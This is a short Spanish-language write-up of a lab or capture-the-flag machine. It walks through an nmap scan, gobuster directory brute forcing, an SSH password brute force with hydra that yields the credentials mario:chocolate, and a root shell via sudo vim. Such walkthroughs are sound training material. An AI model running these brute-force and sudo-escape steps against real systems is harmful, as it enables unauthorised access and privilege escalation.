










Comenzamos enumerando los puertos abiertos de la máquina objetivo

``sudo nmap 172.17.0.2 -sS -p- --open --min-rate 5000 -n -Pn``

Vemos p22 y 80, que muy probablemente sean SSH y HTTP, pero vamos a ver con el siguiente escaneo con más profundidad qué versiones y servicios están corriendo.

``nmap 172.17.0.2 -scV -p22,80``

Como bien nos indica el output de nmap, si entramos a nivel de navegador, nos encontramos un apache default. No tiene nada interesante a nivel de código fuente y no existe un robots.txt.

Toca hacer fuerza bruta de directorios a ver si encontramos algo.

``gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,txt``

Recurso que llama la atención: ``http://172.17.0.2/secret.php``

Ojo. Tenemos un posible usuario: ``mario``.

No parece que encontremos nada más de utilidad, por lo que se decide lanzar fuerza bruta con ``hydra`` contra el servicio ``SSH``.

Estupendo, tenemos credenciales válidas: ``mario``:``chocolate``. Podemos conectarnos por ``ssh`` a la máquina víctima.

``ssh mario@172.17.0.2``

Estamos dentro de la máquina víctima.

# Privesc

``sudo -l``

Ojo, tenemos el binario ``/usr/bin/vim`` con permisos de sudo.

Vamos a echarle un ojo en gtfobins.

https://gtfobins.github.io/gtfobins/vim/#sudo

``sudo /usr/bin/vim -c ':!/bin/sh'``

Hemos escalado a root desde el usuario mario exitosamente.
